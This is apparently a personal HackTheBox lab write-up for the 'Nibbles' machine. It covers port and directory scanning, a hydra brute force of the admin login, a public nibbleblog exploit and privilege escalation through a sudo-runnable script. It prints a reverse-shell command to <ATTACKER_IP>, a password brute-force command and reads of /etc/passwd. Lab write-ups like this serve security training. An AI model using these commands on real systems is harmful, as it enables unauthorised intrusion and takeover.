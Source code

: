 # HackTheBox - Nibbles

### What I Learned

1. Always check machine password settings before brute forcing machine. Could end up with a locked out machine otherwise
2. Writing this from 2 months after I did this machine, I'm kind of embarrassed by how bad this writeup is, but I will keep it up to remind myself how far I have come.

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan using nmap. Find the website and analyze the pages using feroxbuster. Look through the files to find a username. Once a username is found, use hydra to brute force passwords and get blacklisted. Try some different passwords like "admin" and "password", but the password is "nibbles". Login to the website. Look on searchsploit for nibbleblog exploits and use it against the nibbleblog plugin and get a shell. Find what commands you can run (sudo -l). Replace the single file with root access and executability with a reverse shell and run it to get a root shell.

</details>
<br>

## Writeup

Start by scanning the machine for open ports

Nmap

Use Feroxbuster to find other directories

- feroxbuster -u http://10.129.62.214/nibbleblog -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt

Find username admin in files

- http://10.129.62.214/nibbleblog/content/private/users.xml

![alt text](images/image.png)

Use Hydra to brute force passwords

- hydra -l admin -P ./xato-net-10-million-passwords-10000.txt 10.129.62.214 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

![alt text](images/image-1.png)

Try passwords after getting locked out of box and resetting it
Get access to CLI as user nibbler

Run these commands for enumeration

- `cat /etc/passwd | grep sh$`
- `sudo -l`
- `cat /etc/fstab`

Find sudoable command for running as root
•`sudo -l`

Replace the sudo shell file contents with reverse shell

`nohup bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1`
